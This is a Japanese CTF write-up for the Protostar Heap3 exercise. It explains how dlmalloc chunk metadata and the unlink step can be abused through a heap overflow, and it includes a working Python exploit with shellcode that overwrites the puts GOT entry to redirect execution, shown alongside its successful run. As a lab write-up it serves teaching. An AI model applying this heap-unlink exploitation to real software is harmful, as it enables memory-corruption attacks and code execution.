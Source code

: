 ```yaml
---
layout: post
alias: "/blog/2016/02/04/exploit-exercises-protostar-heap3/"
title: "Exploit Exercises Protostar Heap3"
date: 2016-02-04T05:14:02+09:00
tags: [ "ctf", "writeup", "exploit-exercises", "heap", "heap-overflow", "dlmalloc", "heap-metadata" ]
---
```


前3問はよかったのに、これは急に難易度上がりすぎだし不親切なのよくないと思う。

つまりほぼ完全に他の人の解説に頼った。ある程度の理解と成長はしたはずなので許してください。

## [Protostar Heap3](https://exploit-exercises.com/protostar/heap3/)

### 問題

-   関数`winner`を呼ぶのが目標。
-   `malloc`や`free`がstaticにlinkされている。
    -   dlmallocであるとのこと。
    -   `free`のgotをoverwriteできない。
    -   `puts`のgotは存在する。
-   heapのアドレスは固定。
    -   これは与えられたvmの環境によるもの。
    -   手元で試す際はgdbの上で動けば成功としてよい。

### 解説

攻撃対象のコードは以下である。

``` c
int main(int argc, char **argv)
{
    char *a, *b, *c;

    a = malloc(32);
    b = malloc(32);
    c = malloc(32);

    strcpy(a, argv[1]);
    strcpy(b, argv[2]);
    strcpy(c, argv[3]);

    free(c);
    free(b);
    free(a);

    printf("dynamite failed?\n");
}
```

攻撃の流れは、`strcpy`でのbuffer overflowを使ってmallocの使うmetadataを書き換え、`free`の内部で`puts`のgotを書き換えさせる。`printf`は最適化により`puts`を呼び出す。

#### malloc[^1]

mallocは領域を効率良く確保/開放するためのライブラリである。
osに毎回領域を要求すると遅くなるので、まとまった量を確保し、これをchunkという単位に分けてユーザに渡す。

dlmallocはosから直接確保した領域をarenaとして管理する。
arenaはdlmallocが静的領域に持つ根から繋がる単方向連結リストとして保持される。
ただし今回は単一のarenaのみ考えればよい。

各arenaはそれに属する(未使用の)chunkの情報を持つ。
小さいchunkは単方向連結リスト(`fastbins`)で、大きめのchunkは双方向連結リスト(`bins`)で持つ。
このリストはそれぞれに関してもさらにchunkの大きさ別に複数本用意され、要求された大きさにちょうど合う未使用chunkを効率よく探せるようになっている。
小さいchunkを単方向に連結するのは時間/空間のoverheadを減らすためで、大きめのchunkを双方向に連結するのは前後の未使用chunkとの併合を効率良く行うため。

使用中のchunkのアドレスはユーザが保持しfreeの際渡されてくるので、arenaでは保持しない。
かなり大きいchunkはmmap systemcallで直接確保しfreeの際は即時munmapされるので、未使用の状態はない。

chunkが持つ情報は、そのchunkの大きさと状態によって変わる。
どのchunkも自分自身のchunkの大きさ(`head`, `size`)は保持している。
また、chunkの大きさは4の倍数であるので、このsizeの下位2bitに、そのchunkがmmapで確保されたかどうか(`IS_MMAPPED = 0x2`)、そのchunkの(空間上で)直前のchunkが使用中であるか(`PREV_INUSE = 0x1`)の情報が詰め込まれる。
chunkが未使用であれば、その未使用である領域を使って連結リストにおける前後のchunkのアドレスを持つ(`fd`, `bk`)。
さらに、大きめのchunkでありかつ(空間上で)直前のchunkが未使用であれば、その未使用の領域を使って直前のchunkの大きさ(`prev_foot` or `prev_size`)も保持する。
これにより、大きめのchunkはarenaからポインタを用いて繋がる連結リストに加え、空間上で前後のchunkとのoffsetによる別の連結リストの要素であるともいえる。

開放の処理に関して、小さいchunkであれば前後の領域との併合は試さず未使用chunkのリストにそのまま追加する。
大きめのchunkであれば前後の領域との併合を試す。
(空間上で)直前のchunkが使用中でないようなchunkを開放する際、これらを併合する。
直前のchunkは双方向連結リストの要素であるが、大きさが増加するため、元々のリストからは外され、再度別のリストに追加される。
直後のchunkに関しても同様に併合を試す。ただし直後のchunkが使用中であるかの情報は、直後のchunkの直後のchunkの直前のchunkが使用中であるかどうか、という形で取得される。

#### 攻撃

攻撃に関して、chunkの併合が発生した際のリストからの削除を用いることができる。
chunkのmetadataは以下のようになっている。

``` c
// ftp://g.oswego.edu/pub/misc/malloc-2.8.6.c L2182
struct malloc_chunk {
    size_t               prev_foot;  /* Size of previous chunk (if free).  */
    size_t               head;       /* Size and inuse bits. */
    struct malloc_chunk* fd;         /* double links -- used only if free. */
    struct malloc_chunk* bk;
};
```

chunk `p`を開放する際(ただしこれは`free(p+8)`として呼び出される)、直前のchunk `q = p - p->prev_foot`をそのリストから外す。つまり、

``` c
struct malloc_chunk *FD = q->fd;
struct malloc_chunk *BK = q->bk;
FD->bk = BK;  // *(FD + 0xc) = BK;
BK->fd = FD;  // *(BK + 0x8) = FD;
```

という処理が発生する。
heap上overflowが可能であれば`FD`と`BK`を操作できるので、好きなアドレスへの書き込みが可能となる。

ただし書き込みは複数回発生する。1回の併合に関して`FD->bk`と`BK->fd`で2回であり、もし前後のchunkの両方と併合するのであれば合計4回となる。
また、`BK`の値を書き込もうとすれば`BK->fd`を破壊することになるため、`BK`は書き込み可能な領域近くである必要がある。

よって攻撃の際におさえておくべき点は、

-   chunkの大きさを前後との併合が発生する大きさに変えること
-   書き込むアドレスは書き込み可能なアドレスにすること
-   直後のchunkの状態を使用中にしておくこと

の3点であろう。

あとはこれをやる。
[exploit exercises - protostar - heap levels \| research \| sprawl](https://thesprawl.org/research/exploit-exercises-protostar-heap/#heap-3) を参照。


### 実装

``` python
#!/usr/bin/env python3
import struct
p32 = lambda x: struct.pack('<I', x % (1<<32))
puts_got = 0x804b128 # $ objdump -R heap3 | grep '\<puts\>'
winner   = 0x8048864 # $ readelf -s heap3 | grep '\<winner\>'
heap     = 0x804c000 # gotten by gdb, but ...
a = b''.join([ # 32byte
    b'AAAA', # heap + 0x8, write here to puts's got
    b'\xeb\x06' + b'AA', # the `call <puts>' jumps to here, shellcode: jmp $eip+6
    b'AAAA', # BK->fd, written as a side effect
    b'\x68\x64\x88\x04', # shellcode: push 0x08048864 <winner>
    b'\x08' + b'\xc3' + b'AA', # shellcode: ret
    b'AAAA',
    b'AAAA',
    b'AAAA',
    ])
b = b''.join([ # 40byte (32byte + 8byte overflow)
    b'BBBB',
    b'BBBB',
    b'BBBB',     # virtual next next chunk addr
    p32(-8 + 1), # virtual next next chunk size and PREV_INUSE
    p32(-4), # virtual next chunk addr
    p32(-8), # virtual next chunk size
    b'BBBB',
    b'BBBB',
    p32(-4),   # prev_size
    p32(-16)]) # size
c = b''.join([ # 12byte
    b'CCCC',
    p32(puts_got - 0xc),  # virtual prev chunk fd
    p32(heap     + 0x8)]) # virtual prev chunk bk
shrepr = lambda x: '$' + repr(x)[1:]
print('$', './heap3', shrepr(a), shrepr(b), shrepr(c))
```

``` sh
$ ./heap3 $'AAAA\xeb\x06AAAAAAhd\x88\x04\x08\xc3AAAAAAAAAAAAAA' $'BBBBBBBBBBBB\xf9\xff\xff\xff\xfc\xff\xff\xff\xf8\xff\xff\xffBBBBBBBB\xfc\xff\xff\xff\xf0\xff\xff\xff' $'CCCC\x1c\xb1\x04\x08\x08\xc0\x04\x08'
that wasn't too bad now, was it? @ 1454528650
```

### 参考

-   [exploit exercises - protostar - heap levels \| research \| sprawl](https://thesprawl.org/research/exploit-exercises-protostar-heap/#heap-3)
    -   大半をこれに頼った
-   [malloc(3)のメモリ管理構造 \| VA Linux Systems Japan株式会社](http://www.valinux.co.jp/technologylibrary/document/linux/malloc0001/)
    -   これもけっこう役に立った
-   [ハンド (逆) アセンブルのための x86 ニーモニックの覚え方 - @a4lg のそろそろ技術的日記](http://d.hatena.ne.jp/a4lg/20120225/1330180431)
    -   shellcodeを読むのに
-   <ftp://g.oswego.edu/pub/misc>
-   [Beyond Zero-day Attacks（3）：ヒープに対する攻撃とその対策 (1/3) - ＠IT](http://www.atmarkit.co.jp/ait/articles/1408/28/news010.html)
-   [npca2014年部誌 glibcにおいてheap overflowによる任意のアドレス書き換えは可能か? - potetisensei](http://www.npca.jp/works/magazine/2014_10/)
-   [Glibc malloc internal](http://www.slideshare.net/kosaki55tea/glibc-malloc)

---

-   Fri Mar 18 18:47:27 JST 2016
    -   別の問題のため参照したついでにいくらか修正
